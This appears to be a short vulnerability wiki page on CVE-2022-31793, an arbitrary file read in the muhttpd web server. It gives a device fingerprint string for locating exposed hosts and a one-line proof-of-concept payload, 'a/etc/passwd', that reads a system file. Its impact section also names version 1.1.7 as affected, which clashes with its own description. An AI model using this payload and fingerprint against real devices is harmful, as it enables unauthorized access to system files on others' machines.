 # muhttpd arbitrary file reading vulnerability CVE-2022-31793

## Vulnerability Description

muhttpd (mu-HTTP-deamon) is a simple but complete web server written in portable ANSI C. 

Muhttpd versions before 1.1.7 have security vulnerabilities. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">muhttpd 1.1.7</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"2017 ARRIS Enterprises,"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662196402060-ee53d3f5-654b-4fad-8344-3b540d2da4f4.png)

Verify POC

```html
a/etc/passwd 
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662196427874-5ec5ef53-a14e-43f2-a9f8-205a1f8119de.png)